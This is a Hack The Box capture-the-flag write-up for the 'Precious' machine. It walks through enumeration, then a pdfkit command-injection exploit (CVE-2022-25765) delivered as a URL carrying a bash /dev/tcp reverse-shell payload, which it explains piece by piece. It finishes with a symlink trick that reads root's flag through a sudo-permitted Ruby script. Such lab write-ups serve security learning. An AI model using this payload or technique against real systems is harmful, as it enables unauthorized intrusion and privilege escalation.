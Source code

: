 ## **Hack The Box - Precious**

**Creator:** [Nauten](https://app.hackthebox.com/users/27582)

**Difficulty:** Easy

**Link:** [Precious](https://app.hackthebox.com/machines/513)

---

<ins> **Introduction** <ins>


![infocard](/docs/assets/images/HTB/precious/precious01.png)

*Precious* is an Easy level Linux system on Hack The Box. This machine had me exploit [CVE-2022-25765](https://www.cve.org/CVERecord?id=CVE-2022-25765). Which is a *Command Injection* vulnerability when the URL is not properly sanitized on systems running versions of *pdfkit* older than 0.8.7.2.
Once inside the system I was able to enumerate login credentials for a user with sudo privileges over a dependency update script. Running the script I was able to see that it called to a file that didn't exist on the system, so I created a symbolic link to the *root.txt* file named after the file called in the update script. 
Running the script again with sudo privileges caused it to output the contents of the *symbolic link*, which contained the flag I wanted.

---


<ins> **Enumeration** </ins>

I start every machine off with an *nmap service scan*.

`sudo nmap -sV -sC -O <target_ip>`

![nmap output](/docs/assets/images/HTB/precious/precious02.png)

I can see that port *22/tcp* is open to *ssh* traffic using *OpenSSH 8.4p1* and that port *80/tcp* is open to *http* traffic using *nginx 1.18.0*. I ran *searchsploit* on both but came up empty handed.

![searchsploit nginx](/docs/assets/images/HTB/precious/precious03.png)

![searchsploit openssh](/docs/assets/images/HTB/precious/precious04.png)

I also ran a *nikto* scan on the machine that didn't have very many results. There were a few notes about the header on the *nginx* but outside of that not much else.

`nikto -h <target_ip>`

![nikto](/docs/assets/images/HTB/precious/precious05.png)

---


<ins> **Web Enumeration** </ins>

When I first navigate to the web page I get an error that it doesn't exist. I noticed it convert the *url* to a *host_name*, so to view the web application I had to add the *ip_address* and the *host_name* associated with it to the */etc/hosts* file on my machine.

![/etc/hosts](/docs/assets/images/HTB/precious/precious06.png)

From there I can view a webpage that converts any *url* entered into a submission bar into a *pdf*. Seems kind of handy, except when I tested it only a blank pdf is loaded.

![webpage](/docs/assets/images/HTB/precious/precious07.png)

![blank pdf](/docs/assets/images/HTB/precious/precious08.png)

I went on to do a lot that didn't work, from running *gobuster* and loading the web application in *burp suite* to try to see if I could figure out what was going on. Eventually I got around to inspecting the page soucre of the *pdf* that is created and was able to find the service doing the conversion and it's version *pdfkit v0.8.6*.

![Inspect source](/docs/assets/images/HTB/precious/precious15.png)

![pdfkit version](/docs/assets/images/HTB/precious/precious16.png)

Searching for *pdfkit* vulnerabilities I was able to find [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

> In versions of pdfkit older than 0.87 the application could be vulnerable command injection where the URL is not properly sanitized.

![CVE](/docs/assets/images/HTB/precious/precious17.png)

---


<ins> **Exploitation**

So I just need to tack a reverse shell onto the end of the url that I have the webpage convert with *pdfkit* and catch it with a *listener* on my host system. 

`nc -l <host_ip> port`

![listener](/docs/assets/images/HTB/precious/precious19.png)

`http://10.129.79.142/?name=#{%20`bash -c "bash -i >& /dev/tcp/10.10.14.16/4242 0>&1"`}`

The reverse shell was found on [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

![reverse shell](/docs/assets/images/HTB/precious/precious18.png)

The payload starts with a url comprised of the ip address of the target system, `?name=` is a query parameter used to pass additional data to the server through the URL. The `#` is used to concatenate the payload. 
Everything following it gets wrapped in `{}` to indicate the text within them is a command, `%20` is a url encoded space character, then everything to follow is wrapped in `''`,  `bash -c` allows a string to be run as a command, `bash -i` starts and interactive session of bash and `>&` is used to redirect the *stdout* and *stderr* to a file descriptor.
`/dev/tcp/10.10.14.16/4242` is the file descriptor that allows the process to communicate with the *host_ip* on port 4242, then `0>&1` is used to redirect the stdin to the file descriptor.

The results is a shell with the same access rights as the process running the script on the target system, which in this case was *ruby*

![whoami](/docs/assets/images/HTB/precious/precious20.png)

Unfortunately User ruby doesn't have a lot of permissions or even access to read very many files. The home directory lists one other user *henry*, and inside of Henry's home directory is the *user.txt* file containing the user flag. *Ruby* can't read it though.

![henry](/docs/assets/images/HTB/precious/precious21.png)

![nouser.txt](/docs/assets/images/HTB/precious/precious22.png)

I looked around on the file system for anything *ruby* could do to possibly move me to another user and found nothing for a long time. Finally I decided to search for any other files related to user *henry* and found a file that had a *username:password* text format for *henry*.

![Henry Password](/docs/assets/images/HTB/precious/precious23.png)

---


<ins> **Privilege Escalation** </ins>

With Henry's password at hand I'm able to just *ssh* into the machine using the open service on port 22 and then cat the user.txt file once I'm in.

![ssh](/docs/assets/images/HTB/precious/precious24.png)

![User Flag](/docs/assets/images/HTB/precious/precious25.png)

The first thing I do when I get access to a new user on a linux machine is run `sudo -l` to see what they are allowed to do. In Henry's case they are able to run a script that will update the dependencies for *ruby* with root access without a password, so I ran it to see what all it did, which seems to be generate an error.

`sudo /usr/bin/ruby /opt/update_dependencies.rb'

![sudo -l](/docs/assets/images/HTB/precious/precious26.png)

![Dependency Error](/docs/assets/images/HTB/precious/precious27.png)

To me it looked like the script was trying to read the contents of the *dependencies.yml* file and perhaps from there it will try to write in any updates to it, except the file doesn't exist so an error gets generated.

I can create a *symbolic* link to the *root.txt* file and name it *dependencies.yml* and when I run the script using *sudo* the script should read the *root.txt* file with root privileges when it tries to call *dependencies.yml*.

```
ln -s /root/root.txt dependencies.yml 
sudo /usr/bin/ruby /opt/update_dependencies.rb 
```

![root flag](/docs/assets/images/HTB/precious/precious28.png)

![pwned](/docs/assets/images/HTB/precious/precious29.png)

---


<ins> **Final Thoughts** </ins>

This machine was definitely on the Easy side, I'm not sure that's a testament to my own skills improving so much as this one just kind of had everything laid out for me. I think it would actually be a good candidate for the "Beginner Track" if it's not already on one somewhere. 
This was my second time having a real use for symbolic links and my first time actually breaking down a reverse shell payload piece by piece to understand what exactly was going on.
I wasted a lot of time on this one just being unorganized and moving on to new tools before gathering all of the relevant information I had already found. In the future I will definitely be more organized in my approach to machines thanks to *Precious*.



